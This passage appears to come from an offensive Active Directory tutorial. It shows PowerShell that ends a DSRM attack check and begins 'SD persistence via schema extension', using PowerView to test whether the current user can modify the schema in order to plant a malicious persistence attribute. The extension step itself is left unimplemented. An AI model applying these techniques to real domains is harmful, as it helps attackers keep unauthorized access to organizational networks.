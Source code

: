```powershell
    
    Write-Host "DSRM logon requires known DSRM password" -ForegroundColor Yellow
    Write-Host "Use password reset method above if domain admin access available" -ForegroundColor Yellow
    
} else {
    Write-Host "Not running on Domain Controller - DSRM attack not possible" -ForegroundColor Red
}
```

### **Advanced SD Persistence Techniques**

#### **1. SD Persistence via Schema Extension**
```powershell
# Objective: Extend schema to include malicious attributes for persistence
# Impact: Persistent access through custom attributes

Write-Host "=== SD PERSISTENCE VIA SCHEMA EXTENSION ===" -ForegroundColor Red

# Step 1: Check schema modification rights
$schemaContainer = "CN=Schema,CN=Configuration,DC=corp,DC=local"
$schemaACLs = Get-DomainObjectAcl -Identity $schemaContainer -ResolveGUIDs
$currentUser = $env:USERNAME

$hasSchemaAccess = $schemaACLs | Where-Object {
    $_.IdentityReference -like "*\$currentUser" -and
    ($_.ActiveDirectoryRights -like "*WriteProperty*" -or $_.ActiveDirectoryRights -like "*GenericAll*")
}

if($hasSchemaAccess) {
    Write-Host "User has schema modification rights - proceeding with SD persistence" -ForegroundColor Green
    
    # Step 2: Create custom attribute for persistence
    $customAttributeName = "msDS-PersistenceToken"
    $customAttributeValue = "evil_persistence_$(Get-Random -Minimum 1000 -Maximum 9999)"
    
    Write-Host "Creating custom attribute: $customAttributeName" -ForegroundColor Yellow
    Write-Host "This is a complex operation requiring careful schema planning" -ForegroundColor Yellow
    
    # Note: Actual schema extension requires careful planning and testing
    Write-Host "Schema extension not implemented - requires detailed schema planning" -ForegroundColor Yellow
    
} else {
    Write-Host "User does not have schema modification rights" -ForegroundColor Red
}
```
